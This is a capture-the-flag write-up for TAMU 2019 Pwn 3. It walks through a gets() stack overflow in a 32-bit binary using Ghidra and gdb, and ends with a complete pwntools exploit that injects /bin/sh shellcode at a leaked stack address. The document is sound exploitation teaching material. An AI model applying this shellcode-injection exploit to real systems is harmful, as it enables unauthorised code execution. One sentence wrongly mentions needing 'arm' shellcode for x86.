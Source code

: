 # Tamu 2019 Pwn 3

Let's take a look at the binary:

```
$	file pwn3 
pwn3: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=6ea573b4a0896b428db719747b139e6458d440a0, not stripped
$	./pwn3 
Take this, you might need it on your journey 0xffa1c61e!
15935728
```

So we are dealing with a 32 bit binary. When we run it, it prints out what looks like a stack address and prompts us for input. When we take a look at the main function in Ghidra, we see this:

```
/* WARNING: Type propagation algorithm not settling */

undefined4 main(void)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax(&stack0x00000004);
  setvbuf((FILE *)(*(FILE **)(iVar1 + 0x19fd))->_flags,(char *)0x2,0,0);
  echo();
  return 0;
}
```

Looking through the main function, the most important thing here is that it calls the `echo` function. Let's take a look at that function in Ghidra:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void echo(void)

{
  char input [294];
  
  printf("Take this, you might need it on your journey %p!\n",input);
  gets(input);
  return;
}
```

So we can see that this function prints the address of the char buffer `input`, then calls `gets` with `input` as an argument. This is a bug since `gets` doesn't restrict how much data it scans in, we get an overflow. With this we can overwrite the return address and get code execution. The question is now what do we call? There aren't any functions that will either print the flag or give us a shell like in some of the previous challenges. We will instead be using shellcode.

Shellcode is essentially just precompiled code that we can inject into a binary's memory, and if we redirect code execution to it it will run. It will need to match the architecture, so we will need to have arm for x86 linux. Whenever I need just generic shellcode I typically grab it from http://shell-storm.org/shellcode/ (or you could just google for shellcode, or make it yourself which we will cover later). I'll be using the `Linux/x86 - execve /bin/sh shellcode - 23 bytes` shellcode by `Hamza Megahed` found at `http://shell-storm.org/shellcode/files/shellcode-827.php`. The shellcode I'm using will just pop a shell for us when we run it.

Now we can inject it into memory, however we need to deal with something called ASLR (Address Space Layout Randomization). This is a binary mitigation (a mechanism made to make pwning harder). What it does is it randomizes all of the addresses for various memory regions, so every time the binary runs we don't know where things are in memory. While the addresses are random, the offsets between things in the same memory region remain the same. So if we just leak a single address from a memory region that we know what it is, since the offsets are the same we can figure out the address of anything else in the memory region.

This also applies to where our shellocde is stored in memory, which we need to know in order to call it. Luckily for us, the address printed is the start of our input on the stack. So we can just take that address and overwrite the return address with it, to call our shellcode.

Let's use gdb to see how much space we have between the start of our input and the return address:

```
gef➤  disas echo
Dump of assembler code for function echo:
   0x0000059d <+0>:	push   ebp
   0x0000059e <+1>:	mov    ebp,esp
   0x000005a0 <+3>:	push   ebx
   0x000005a1 <+4>:	sub    esp,0x134
   0x000005a7 <+10>:	call   0x4a0 <__x86.get_pc_thunk.bx>
   0x000005ac <+15>:	add    ebx,0x1a20
   0x000005b2 <+21>:	sub    esp,0x8
   0x000005b5 <+24>:	lea    eax,[ebp-0x12a]
   0x000005bb <+30>:	push   eax
   0x000005bc <+31>:	lea    eax,[ebx-0x191c]
   0x000005c2 <+37>:	push   eax
   0x000005c3 <+38>:	call   0x410 <printf@plt>
   0x000005c8 <+43>:	add    esp,0x10
   0x000005cb <+46>:	sub    esp,0xc
   0x000005ce <+49>:	lea    eax,[ebp-0x12a]
   0x000005d4 <+55>:	push   eax
   0x000005d5 <+56>:	call   0x420 <gets@plt>
   0x000005da <+61>:	add    esp,0x10
   0x000005dd <+64>:	nop
   0x000005de <+65>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x000005e1 <+68>:	leave  
   0x000005e2 <+69>:	ret    
End of assembler dump.
gef➤  b *echo+61
Breakpoint 1 at 0x5da
gef➤  r
Starting program: /Hackery/pod/modules/bof_shellcode/tamu19_pwn3/pwn3 
Take this, you might need it on your journey 0xffffcf3e!
15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffcf3e  →  "15935728"
$ebx   : 0x56556fcc  →  <_GLOBAL_OFFSET_TABLE_+0> aam 0x1e
$ecx   : 0xf7faf5c0  →  0xfbad2288
$edx   : 0xf7fb089c  →  0x00000000
$esp   : 0xffffcf20  →  0xffffcf3e  →  "15935728"
$ebp   : 0xffffd068  →  0xffffd078  →  0x00000000
$esi   : 0xf7faf000  →  0x001d7d6c ("l}"?)
$edi   : 0x0       
$eip   : 0x565555da  →  <echo+61> add esp, 0x10
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────── stack ────
0xffffcf20│+0x0000: 0xffffcf3e  →  "15935728"	 ← $esp
0xffffcf24│+0x0004: 0xffffcf3e  →  "15935728"
0xffffcf28│+0x0008: 0xffffcf4c  →  0x00000000
0xffffcf2c│+0x000c: 0x565555ac  →  <echo+15> add ebx, 0x1a20
0xffffcf30│+0x0010: 0x00000000
0xffffcf34│+0x0014: 0x00000000
0xffffcf38│+0x0018: 0x00000000
0xffffcf3c│+0x001c: 0x35310000
─────────────────────────────────────────────────────────────── code:x86:32 ────
   0x565555ce <echo+49>        lea    eax, [ebp-0x12a]
   0x565555d4 <echo+55>        push   eax
   0x565555d5 <echo+56>        call   0x56555420 <gets@plt>
 → 0x565555da <echo+61>        add    esp, 0x10
   0x565555dd <echo+64>        nop    
   0x565555de <echo+65>        mov    ebx, DWORD PTR [ebp-0x4]
   0x565555e1 <echo+68>        leave  
   0x565555e2 <echo+69>        ret    
   0x565555e3 <main+0>         lea    ecx, [esp+0x4]
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn3", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x565555da → echo()
[#1] 0x5655561a → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x565555da in echo ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rwx
  0x56558160 - 0x56558168  →   "15935728" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffcf3e - 0xffffcf46  →   "15935728" 
gef➤  info frame
Stack level 0, frame at 0xffffd070:
 eip = 0x565555da in echo; saved eip = 0x5655561a
 called by frame at 0xffffd090
 Arglist at 0xffffd068, args: 
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebx at 0xffffd064, ebp at 0xffffd068, eip at 0xffffd06c
```  

Just a bit of math:

```
>>> hex(0xffffd06c - 0xffffcf3e)
'0x12e'
```

So the space between the start of our input and the return address is `0x12e` bytes. This makes sense since the char array which holds our input is `294` bytes large, and there are two saved register values (ebx and ebp) on the stack in between our input and the saved return address each `4` bytes a piece (`294 + 4 + 4 = 0x12e`). With all of this, we have all we need to write the exploit:

```
from pwn import *

target = process('./pwn3')

# Print out the text, up to the address of the start of our input
print target.recvuntil("journey ")

# Scan in the rest of the line
leak = target.recvline()

# Strip away the characters not part of our address
shellcodeAdr = int(leak.strip("!\n"), 16)

# Make the payload
payload = ""
payload += asm(shellcraft.i386.linux.sh())
# Pad the rest of the space to the return address with zeroes
payload += "0"*(0x12e - len(payload))
# Overwrite the return address with te leaked address which points to the start of our shellcode
payload += p32(shellcodeAdr)

# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use our newly popped shell
target.interactive()
```

When we run it:
```
$	python exploit.py 
[+] Starting local process './pwn3': pid 5149
Take this, you might need it on your journey 
[*] Switching to interactive mode
$ w
 19:33:06 up  2:19,  1 user,  load average: 0.01, 0.05, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               17:14    2:19m 40.15s  0.16s /sbin/upstart --user
$ ls
exploit.py  pwn3
```

Just like that, we popped a shell!
